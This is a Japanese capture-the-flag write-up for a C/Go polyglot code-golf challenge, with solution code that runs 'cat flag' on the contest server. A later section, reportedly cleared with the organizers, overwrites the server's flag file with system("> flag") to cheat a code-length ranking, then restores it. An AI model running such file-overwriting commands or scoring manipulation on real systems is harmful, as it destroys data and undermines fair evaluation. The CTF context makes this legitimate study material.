

# polygolf:Misc:50pts
同一のコードで複数のプログラミング言語やファイル形式に対応するものをPolyglotと呼びます。 また、与えられたアルゴリズムを可能な限り短く書く競技のことをコードゴルフと呼びます。  
この2つを合わせた、文字数制限付きのPolyglotを用意してみました。  
[http://34.145.29.222:30008](http://34.145.29.222:30008/)  
[dist.zip](dist.zip)  

# Solution
URLにアクセスすると[polyglot](../polyglot)の強化版のようで、185バイトの制限がかかっている。  
Polygolf  
[site.png](site/site.png)  
先ほどの各言語ごとのコードを短くしなければならない。  
Cはかなり自由が利きそうなので、まずはGoのコードについて考える。  
ファイルを開いて出力するよりも、OSコマンドを実行するほうが短くて済みそうであるので、そちらを採用する。  
```go
//\
/*
#if 0
//*/
package main
import(."fmt"
."os/exec")
func main(){o,_:=Command("cat","flag").Output()
Print(string(o))}
//\
/*
#endif
//*/
```
かなり短くなった。  
Cはsystemを実行するだけなので問題はない。  
```c
//\
/*
main(){system("cat flag");}
#if 0
//*/
package main
import(."fmt"
."os/exec")
func main(){o,_:=Command("cat","flag").Output()
Print(string(o))}
//\
/*
#endif
//*/
```
完成したものを送信するとflagが得られた。  
  

## taskctf{H4ve_y0u_kn0w_p0lygl0t}

---

## 追加イベント

追加で**過去の提出者のコード長ランキング**なるものが出現した。  
コードの短さを競うようだが、これ以上短くはなりそうもない。  
ここで、前の問題であるPolyglotにはflagファイルが書き換え可能である脆弱性があったことに気づく。  
同じ脆弱性が残っていそうだ。  
ランキングがflagファイルの中身と実行結果を比較しているので、flagファイルの中身を空にし、何も表示しないGoとCのコードを記述すれば文字数を大幅に削減できそうだ。  
**※CTF開催者に確認を取って実施しています。**  
以下のステップで行う。  
- ステップ1. flagファイルを空に上書きする。  
```
//\
/*
main(){system("> flag");}
#if 0
//*/
package main
import(."fmt"
."os/exec")
func main(){o,_:=Command("cat","flag").Output()
Print(string(o))}
//\
/*
#endif
//*/
```
- ステップ2. できるだけ短くした何もしないコードを送信する(これがランキング結果となる)。  
```
//\
/*
main(){}
#if 0
*/
package main
func main(){}
//\
/*
#endif
//*/
```
- ステップ3. flagファイルを他の競技者のために復元する。  
```
//\
/*
main(){system("echo 'taskctf{H4ve_y0u_kn0w_p0lygl0t}' > flag");}
#if 0
//*/
package main
func main(){}
//\
/*
#endif
//*/
```
- ステップ4. flagファイルの復元を確認する。  
```
//\
/*
main(){system("cat flag");}
#if 0
*/
package main
import(."fmt"
."os/exec")
func main(){o,_:=Command("cat","flag").Output()
Print(string(o))}
//\
/*
#endif
//*/
```
これらをほかの競技者の迷惑にならない程度の時間で行い、かつWindowsであるため改行コードを削減したい。  
Burp SuiteでリクエストのHexを編集し、連続してリクエストを送信した。  
結果として70文字となった。  
  

---
